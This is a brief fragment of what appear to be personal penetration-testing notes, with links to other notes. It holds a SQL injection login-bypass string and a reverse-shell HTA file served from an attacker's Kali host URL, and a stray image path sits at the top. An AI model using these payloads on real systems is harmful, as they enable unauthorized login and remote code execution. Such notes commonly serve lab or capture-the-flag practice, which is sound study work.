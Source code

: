 Auth bypass:
```
admin' or '1'='1'--
```
reverse hta file:
[[Python#Server]]
[[1._Reverse Shells (WIN)#hta file]]
[[1._rlwrap]]
```
URL: http://$KALI/reverse.hta
```
